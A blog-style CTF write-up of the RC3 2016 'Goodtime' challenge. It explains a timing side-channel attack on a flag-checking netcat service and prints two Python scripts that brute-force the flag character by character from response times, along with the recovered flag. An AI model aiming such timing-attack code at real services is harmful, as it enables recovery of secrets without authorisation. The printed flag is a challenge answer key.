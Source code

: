 ```yaml
---
layout: post
title:  "RC3 2016 ~ Goodtime: Misc 150"
author: Vivi
date:   2016-11-20 04:29:33 -0700
categories: CTF Misc All
tags: RC3 Programming
---	
```


This is a misc challenge from RC3 2016. RC3 hosts a CTF every year and have been one of my favorite CTFs simply because it's a lot easier than the DefCon qualifying CTFs. This challenge in particular was extremely long for a measly 150 points. It's not very hard - just really annoying and inconsistent.


**Challenge Details**
------------------

```
Goodtime - 150
--------------
The flag is not on the youtube video, the flag on there is someone trying to confuse you. Sorry.
The flag is also longer than normal.
https://www.youtube.com/watch?v=H7HmzwI67ec
nc goodtime.ctf.rc3.club 5866
NOTE: there should be a prompt when you connect. if there isn't it went down so scream at me in IRC until I fix.

author: wumb0
```

Like any person would - the first thing I did was view the [YouTube](https://www.youtube.com/watch?v=H7HmzwI67ec) video:

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/H7HmzwI67ec" frameborder="0" allowfullscreen></iframe>
   <figcaption>Good Time - Owl City & Carly Rae Jepson</figcaption>
</figure>

Obviously no clues here - it's just a video of Carly Rae Jepson; However, I did notice some guy posted a fake flag in the comments. That gave me a good laugh. Next thing to do was check out the netcat connection.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93602.js" id="asciicast-93602" async ></script>
   <figcaption> nc goodtime.ctf.rc3.club 5866</figcaption>
</figure>

After trying out the netcat server, we noticed the server took longer to respond when we input something in the flag format (RC3-2016-XXXX). Since the title of this challenge was called goodtime - I'm going to assume the exploit is a lineariation attack via response time. In other words, we'll try to deduce the flag by comparing the response times of different inputs. I would assume the server checks the input - one character at a time. Thus an input of **Apple** have a shorter response time than **RC** simply because the server would check the **A** in **Apple** and stop - meanwhile the server would check **R**, then **C** then look for a **3** (to make RC3) in **RC**. Let's validate this by creating a script and testing it out.

[manualTime.py]({{site.github.url}}/assets/rc3/goodtime/manualTime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

#host to connect to
host="54.167.134.245"
#the port with whatever u want 
port = 5866
#creating a socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = ""
highestTime = 0
attempt= "RC3-2016-"
allowedChars = "klmnopqrstuvwxyz-ABCDEFGHIJKLMNOPQRSTUVWXYZ"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#start timer
start = timer()
#start connecction
s.connect((host, port))
#Recover 2014 bytes of response and print
data2 = s.recv(1024)
print data2
print "Attempting: " + attempt
#Send out flag
s.send(attempt + '\n')
#Read response
data2 = s.recv(1024)
#end timer
print timer()-start
```

This script creates a socket and connects to the netcat server via the host and port provided. It then connects to the server using that socket and reads any incoming bytes. After which, we send our attempt on the flag. We wait for a response and print out the response time. This kind of socket scripting is useful when the server response is consistant. Here's what it looks like in usage.

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93604.js" id="asciicast-93604" async ></script>
   <figcaption>python manualTime.py</figcaption>
</figure>

Since now we know it's a linearization attack on response time, and the flag format is "RC3-2016-XXXXX", we only need to solve the last line of the flag. To do this, we need to test every single character - like a brute-force attack - and check the reponse time:

> RC3-2016-a

> RC3-2016-b

> RC3-2016-c

> RC3-2016-d

> RC3-2016-e

> RC3-2016-f

Assuming we hit the right character - that response would be be quite larger than the other inputs. Thus we can save the character with the longest response time and assume that's the next character in the flag. I automated this process in 

[goodtime.py]({{site.github.url}}/assets/rc3/goodtime/goodtime.py)


```python
#!/usr/bin/env python
import time
import socket
import re
import sys

timer = time.clock if sys.platform == 'win32' else time.time

host="54.167.134.245"
#the port with whatever u want 
port = 5866
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

#default values
flag = "";
highestTime = 0;
attempt= ""
allowedChars = "abcdegfhijklmnopqrstuvwxyz-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()"

for x in range(0,50):
	# Resets highestChar
	highestChar=""
	for x in allowedChars:
		#Creates attempt 1
		attempt = flag + x
		#Create socket
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		#Start timer
		start = timer()
		#Connect to netcat
		s.connect((host, port))
		#Recover response
		data2 = s.recv(1024)
		print data2
		#Send flag
		print "Attempting: " + attempt
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		#End timer
		time1 = timer()-start
		print "Time 1: " + str(time1)
		# print 'time taken ', timer()-start ,' seconds'
		if (timer()-start > highestTime):
			highestTime = timer()-start
			highestChar = x
		s.close()
		#attempt 2
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		start = timer()
		s.connect((host, port))
		data2 = s.recv(1024)
		s.send(attempt + '\n')
		#keep this to get the actual response
		data2 = s.recv(1024)
		time2 = timer()-start
		print "Time 2: " + str(time2)
		# print 'time taken ', timer()-start ,' seconds'
		average = (time1+time2)/2
		print "Average: " + str(average)
		if (average > highestTime):
			highestTime = average
			highestChar = x
		s.close()
	print "Adding [" + highestChar + "] to flag"
	flag = flag + highestChar;
	print "Current Flag: " + flag
```

Let's check it out in use:

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93590.js" id="asciicast-93590" async ></script>
   <figcaption>python goodtime.py</figcaption>
</figure>

Combining both the automated and manual script, we were able to get the flag. 

> RC3-2016-itz-alw4yz-a-g00d-t1m1ng-@tt@ck

Let's confirm

<figure>
<script height="800" type="text/javascript" src="https://asciinema.org/a/93610.js" id="asciicast-93610" async ></script>
   <figcaption>Confirming the flag</figcaption>
</figure>

The hardest part was due to inconsistency in the netcat connection. Any new characters I received from my script, I had to triple check manually. 9/10 it was just a false positive due to the netcat connection. It might've been better if I was connected with a wired connection rather than WIFI. Luckily, it wasn't so bad to guess some of the flag. When I saw the words **itz-al**, I already knew it was a Carly Rae reference - "It's always a good time". I manually input every version of **always** like **alw4ys** and **alw@ys** - one character at a time. Whenever the response time went up - I knew that was the correct character. The most trickiest part was after **g00d-t1m**. I thought I was done because I assumed the flag was **itz alwayz a good time**. I had to bruteforce the second **1** for **t1m1ng**. I had no clue why it was a **1** at the time only to realize an hour later it was **timing** and not **time**. Additionally, the last part of the flag - **@tt@ck** -  threw me off because I assumed the last word in the flag would be alphanumeric. The last word took me atleast 3 hours because the server kept crashing and each flag I input had a response time of atleast 10 seconds. To brute force the **@** it required all lowercase, uppercase, numbers, and punctuations - 10 seconds a piece. About 10 minutes if I was lucky the server didn't crash. At last though I was able to get the flag.
